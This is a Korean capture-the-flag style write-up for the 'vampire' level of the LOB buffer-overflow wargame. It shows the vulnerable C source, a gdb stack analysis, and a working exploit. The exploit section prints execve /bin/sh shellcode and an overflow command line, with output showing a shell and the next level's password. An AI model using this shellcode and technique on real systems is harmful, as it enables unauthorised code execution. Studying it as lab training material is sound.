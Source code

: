 ```yaml
---
title: "[LOB]Level09. vampire"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180829
modify_date: 2018-08-29
article_header:
  type: cover
  image:
    src: 
---
```


[Check 0xBFFF](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/
#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

    // here is changed!
    if(argv[1][46] == '\xff')
    {
        printf("but it's not forever\n");
        exit(0);
    }

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis

lret의 2번째 값이 '\xff'이면 안된다..;;

그외에는 별거 없다.



스택에서 버프의 위치가 0xbfff 영역에 존재하기 때문에 필터링에 걸릴 수 밖에 없다.

따라서 argv[2]의 많음 값의 데이터를 넣어서 버퍼의 주소가 0xbfff영역을 벗어나게 만들어야 한다.

```sh
Starting program: /home/troll/./aampire `python -c 'print "A"*44+"\xff\xff\xbf\xbf"'` `python -c 'print "\x90"*65000'`

Breakpoint 1, 0x80484b9 in main ()
(gdb) x/32x $esp
0xbffefcd8:	0xbffefce0	0xbffefe63	0x41414141	0x41414141
0xbffefce8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffefcf8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffefd08:	0x41414141	0xbfbfffff	0x00000000	0xbffefd54
0xbffefd18:	0xbffefd64	0x40013868	0x00000003	0x08048380
0xbffefd28:	0x00000000	0x080483a1	0x08048430	0x00000003
0xbffefd38:	0xbffefd54	0x080482e0	0x080484fc	0x4000ae60
0xbffefd48:	0xbffefd4c	0x40013e90	0x00000003	0xbffefe4d
```

argv[2]에 NULL값을 65000개 넣었더니 esp값이 0xbffe영역을 가리키고 있다.

-----

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```sh
[troll@localhost troll]$ ./vampire `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"A"*20+"\xe0\xfc\xfe\xbf"'` `python -c 'print "\x90"*65000'`
1�Ph//shh/bin��PS�ᙰ
                    ̀AAAAAAAAAAAAAAAAAAAA����
bash$ my-pass
euid = 509
music world
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
```

-----